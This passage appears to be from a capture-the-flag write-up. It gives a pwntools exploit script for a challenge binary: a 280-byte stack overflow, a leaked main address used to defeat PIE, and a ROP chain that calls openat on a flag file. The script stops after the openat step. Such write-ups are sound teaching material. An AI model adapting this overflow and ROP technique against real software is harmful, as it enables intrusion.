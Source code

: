 
## Payload Assembly

Buffer overflow kicks in here:

```python
payload = b'A' * 280  # Offset to return address
payload += rop
```

After sending this, we enter **interactive mode** and get the flag.

---

## Complete exploit script:

```python
from pwn import *

context.binary = './chall'
context.arch = 'amd64'
context.log_level = 'info' 

elf = context.binary
p = process(elf.path)
#p = remote('ip_addr', port)
p.recvuntil(b'What is your name, epic H4x0r?\n')
p.sendline(b'/home/user/flag.txt\0') 
p.recvuntil(b'<|;)\n')
main_leak = p.recvline().strip()
main_addr = int(main_leak, 16)
log.info(f"Leaked main address: {hex(main_addr)}")

main_offset = elf.symbols['main']
binary_base = main_addr - main_offset
name_offset = 0x4050
name_addr = binary_base + name_offset
log.info(f"PIE base: {hex(binary_base)}")
log.info(f"name address: {hex(name_addr)}")

# Gadgets
pop_rdi_ret = binary_base + 0x13db
pop_rdx_ret = binary_base + 0x1199
pop_rsi_pop_r15_ret = binary_base + 0x13d9
pop_rax_ret = binary_base + 0x119b
syscall_ret = binary_base + 0x119d

AT_FDCWD = -100  # 0xffffff9c for openat
O_RDONLY = 0

# ROP chain
rop = b''

# openat(AT_FDCWD, name_addr, O_RDONLY)
rop += p64(pop_rdi_ret)
rop += p64(AT_FDCWD & 0xffffffffffffffff)
rop += p64(pop_rsi_pop_r15_ret)
rop += p64(name_addr)
rop += p64(0)  # junk for r15
rop += p64(pop_rdx_ret)
rop += p64(O_RDONLY)
rop += p64(pop_rax_ret)
rop += p64(257)  # openat
rop += p64(syscall_ret)

```